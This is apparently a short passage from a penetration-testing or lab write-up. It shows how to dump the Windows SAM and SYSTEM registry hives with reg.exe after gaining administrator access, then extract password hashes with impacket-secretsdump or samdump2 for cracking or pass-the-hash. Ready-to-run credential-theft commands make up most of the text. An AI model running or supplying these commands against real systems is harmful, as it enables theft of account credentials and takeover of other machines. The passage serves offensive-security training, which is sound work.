 After having gained the Administrator access we cam dump SAM and SYSTEM using reg.exe

```powershell
reg save hklm\sam C:\temp\SAM
reg save hklm\system C:\temp\SYSTEM
```

Once copied back on the Kali machine the two files we can dump them with

```shell
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```

or

```shell
samdump2 SYSTEM SAM
```

This will give us a list of userame:hash that can be cracked using hashcat's NTLM cracking or used for a Pass The Hash attack. Other ways to perform a SAM and SYSTEM credential dumping are explained [here](https://juggernaut-sec.com/dumping-credentials-sam-file-hashes/). Many scenarios about dumping SAM ad SYSTEM can be found [here](https://www.hackingarticles.in/credential-dumping-sam/).
